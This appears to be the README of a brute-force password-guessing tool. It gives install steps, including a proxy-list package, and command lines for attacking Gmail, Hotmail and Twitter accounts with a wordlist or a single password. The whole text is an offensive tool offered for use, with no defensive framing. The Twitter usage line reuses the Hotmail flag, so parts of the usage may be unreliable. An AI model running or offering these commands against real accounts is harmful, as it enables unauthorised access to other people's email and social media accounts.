 # Brute_Force
![alt text](https://1.top4top.net/p_128839jbv1.png)

install :
pip install proxylist
pip install mechanize


Usage:

# Brutoforce Gmail 

python3 Brutoforce.py -g Account@gmail.com -l File_list
python3 Brutoforce.py -g Account@gmail.com -p Password_Single


# Brutoforce Hotmail
 
python3 Brutoforce.py -t Account@hotmail.com -l File_list
python3 Brutoforce.py -t Account@hotmail.com -p Password_Single


# Brutoforce Twitter

python3 Brutoforce.py -t Account_Twitter -l File_list
